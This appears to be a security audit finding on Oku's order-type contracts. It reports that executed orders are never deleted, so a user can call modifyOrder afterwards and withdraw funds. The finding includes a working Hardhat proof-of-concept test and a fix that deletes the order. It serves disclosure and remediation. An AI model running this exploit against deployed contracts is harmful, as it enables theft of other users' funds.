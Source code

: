 Bald Honeysuckle Urchin

High

# A user can steal funds after his order was executed

### Summary

A vulnerability was discovered in `Bracket::performUpkeep` where `orderId` is removed from the `pendingOrderIds`, but it still remains active. Similar case for `StopLimit::performUpkeep` and `OracleLess::fillOrder`, where order are not deleted from mapping after orders are executed

### Root Cause

In `Bracket::performUpkeep`, `orderId` is removed from the `pendingOrderIds`, but the order is not deleted. So when the user calls `modifyOrder` with the same `orderId` and `increasePosition` false, he can still pull funds from the contract. Same case for `StopLimit::performUpkeep` and in case of `OracleLess::fillOrder`, order is not deleted after orders are fulfilled.

### Attack Path

1. User creates an order calling `createOrder`
2. A keeper or bot calls `performUpkeep` when the order is executable
3. User now calls `modifyOrder` with argument `increasePosition` to false and `amountInDelta` such that it passes the condition in line [264](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L264)
In this way any user can steal funds from the contract

### Impact

Loss of funds from the contract. Other users will be affected

### PoC

Paste the following code in `test/triggerV2/happyPath.ts`:
```javascript
it("Steal funds after performUpkeep in Bracket", async () => {
        await stealMoney(s.wethWhale, await s.Frank.getAddress(), await s.WETH.getAddress(), s.wethAmount)
        await stealMoney(s.wethWhale, await s.Bracket.getAddress(), await s.WETH.getAddress(), s.wethAmount * 2n)
        await stealMoney(s.usdcWhale, await s.Bracket.getAddress(), await s.USDC.getAddress(), s.usdcAmount * 2n)

        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())

        await s.WETH.connect(s.Frank).approve(await s.Bracket.getAddress(), s.wethAmount)
        await s.Bracket.connect(s.Frank).createOrder(
            "0x",
            currentPrice,
            currentPrice,
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Frank.getAddress(),
            5,
            500,
            500,
            false,
            "0x"
        )

        const filter = s.Bracket.filters.OrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        orderId = (event[0])

        const result = await s.Bracket.checkUpkeep("0x")

        //get returned upkeep data
        const data: MasterUpkeepData = await decodeUpkeepData(result.performData, s.Frank)

        //get minAmountReceived
        const minAmountReceived = await s.Master.getMinAmountReceived(data.amountIn, data.tokenIn, data.tokenOut, data.bips)

        //generate encoded masterUpkeepData
        const encodedTxData = await generateUniTx(
            s.router02,
            s.UniPool,
            await s.Bracket.getAddress(),
            minAmountReceived,
            data
        )

        // perform upkeep
        await s.Bracket.performUpkeep(encodedTxData)

        const wethBalanceBefore = await s.WETH.balanceOf(await s.Frank.getAddress())
        console.log("Weth balance before: ", wethBalanceBefore)

        expect(wethBalanceBefore).to.be.equal(0)

        await s.Bracket.connect(s.Frank).modifyOrder(
            orderId.toString(),
            currentPrice,
            currentPrice + BigInt(1e18),
            s.wethAmount / 2n,
            await s.USDC.getAddress(),
            s.Frank,
            500,
            500,
            false,
            false,
            "0x"
        )

        const wethBalanceAfter = await s.WETH.balanceOf(await s.Frank.getAddress())
        console.log("Weth balance after: ", wethBalanceAfter)

        // user just pulled funds from the contract even after his order was executed
        expect(wethBalanceAfter).to.greaterThan(wethBalanceBefore)
        expect(wethBalanceAfter).to.be.equal(s.wethAmount / 2n)
    })
```
run `npm run test`

### Mitigation

delete the order after executing the order in `performUpkeep`:
```diff
function performUpkeep(
        bytes calldata performData
    ) external override nonReentrant {
        /// .....

        //send tokenOut to recipient
        order.tokenOut.safeTransfer(order.recipient, adjustedAmount);

        //refund any unspent tokenIn
        //this should generally be 0 when using exact input for swaps, which is recommended
        if (tokenInRefund != 0) {
            order.tokenIn.safeTransfer(order.recipient, tokenInRefund);
        }

        //emit
        emit OrderProcessed(order.orderId);
+       delete orders[orderId];
    }
```
Similar implementation for `StopLimit::performUpkeep` and `OracleLess::fillOrder`, order should be deleted from mapping after it is fulfilled